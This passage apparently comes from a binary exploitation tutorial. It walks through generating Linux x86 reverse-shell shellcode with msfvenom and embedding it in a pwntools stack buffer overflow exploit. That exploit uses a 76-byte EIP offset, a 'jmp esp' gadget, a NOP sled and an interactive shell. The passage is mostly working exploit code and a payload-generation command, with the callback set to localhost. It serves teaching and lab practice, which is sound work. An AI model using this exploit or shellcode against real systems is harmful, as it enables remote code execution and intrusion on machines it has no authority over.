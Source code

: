 ### Msfvenom

`msfvenom` is the most usage tool to create payloads.

```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b '\x00' -f python
```
And finally we just need to put inside our exploit.

```python
io = start()

# Offset to EIP
padding = 76

# Assemble the byte sequence for 'jmp esp' so we can search for it
jmp_esp = asm('jmp esp')
jmp_esp = next(elf.search(jmp_esp))

# Execute Reverse Shell
# msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b '\x00' -f python

buf =  b""
buf += b"\xbe\x99\xc0\x76\x66\xda\xd0\xd9\x74\x24\xf4\x5a\x31"
buf += b"\xc9\xb1\x12\x31\x72\x12\x03\x72\x12\x83\x73\x3c\x94"
buf += b"\x93\xb2\x66\xae\xbf\xe7\xdb\x02\x2a\x05\x55\x45\x1a"
buf += b"\x6f\xa8\x06\xc8\x36\x82\x38\x22\x48\xab\x3f\x45\x20"
buf += b"\x53\xc0\xb5\xb1\xc3\xc2\xb5\xa0\x4f\x4a\x54\x72\x09"
buf += b"\x1c\xc6\x21\x65\x9f\x61\x24\x44\x20\x23\xce\x39\x0e"
buf += b"\xb7\x66\xae\x7f\x18\x14\x47\x09\x85\x8a\xc4\x80\xab"
buf += b"\x9a\xe0\x5f\xab"

# Build payload
payload = flat(
    asm('nop') * padding,
    jmp_esp,
    asm('nop') * 16,
    buf
)

# Write payload to file
write("payload", payload)

# Exploit
io.sendlineafter(b':', payload)

# Get shell
io.interactive()
```
## Socket Re-Use 

Instead of spawning a reverse shell that maybe give problems to us with bad characters we can re-use the open socket.
